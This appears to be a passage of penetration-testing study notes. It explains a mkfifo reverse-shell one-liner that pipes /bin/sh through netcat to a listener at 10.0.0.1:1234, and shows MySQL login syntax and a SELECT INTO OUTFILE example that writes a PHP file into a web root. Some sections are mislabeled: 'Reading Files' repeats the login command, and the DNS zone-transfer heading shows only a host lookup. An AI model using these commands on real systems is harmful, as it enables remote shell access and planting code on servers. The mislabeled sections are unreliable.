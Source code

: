 By default, the base64 command inserts newline characters when the input is too long. The `-w0` flag disables that, and simply gives you a long encoded string. Simplicity is preferred in payloads, therefore the newlines are undesirable.


## mkfifo
There are times when you need to create a Linux reverse shell, but for one reason or another, you are unable to use Bash. Instead, all you can use is `/bin/sh`. In that case, another reliable reverse shell that's worth knowing is the **mkfifo reverse shell**.

Mkfifo stands for __Make [FIFO](https://en.wikipedia.org/wiki/FIFO_(computing_and_electronics))__. As the name says, it makes a FIFO special file in your filesystem. The FIFO file functions very similarly to a pipe in Linux. If one process writes "hello" to a FIFO file and another process simultaneously reads the FIFO file, then the reading process will read the string "hello". In other words, you're effectively using the FIFO file to pipe the string "hello" from one process to another.

Here is an example of a FIFO reverse shell that connects to 10.0.0.1 on port 1234:

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
Let's break it down:
- `rm /tmp/f;`: If the file already exists, this command removes the `/tmp/f` file from any previous reverse shell attempts.
- `mkfifo /tmp/f;`: Creates a FIFO file at `/tmp/f`.
- `cat /tmp/f|/bin/sh -i 2>&1`: Reads input from `/tmp/f` and executes it using `/bin/sh`. `2>&1` means that stderr is redirected to stdout.
- `|nc 10.0.0.1 1234`: All output from the `/bin/sh` execution is sent back to the listener using netcat.
- `>/tmp/f`: Any incoming data from the listener is sent to /tmp/f where it will be read and executed.

# DNS Zone Transfers
`host servers.lab` - the `host` command will validate if a hostname exists and provide the IP Address.

# Exploiting Databases

## `mysql` Database Login
The syntax you need for the mysql tool is the following:

`mysql -u<username> -p<password> -h<host>`

## Reading Files
The syntax you need for the mysql tool is the following:

`mysql -u<username> -p<password> -h<host>`

## Writing Files
`SELECT '<text>' INTO OUTFILE '<file path>';`
For example: `select '<?php phpinfo() ?>' INTO OUTFILE '/var/www/html/pwned2.php';`

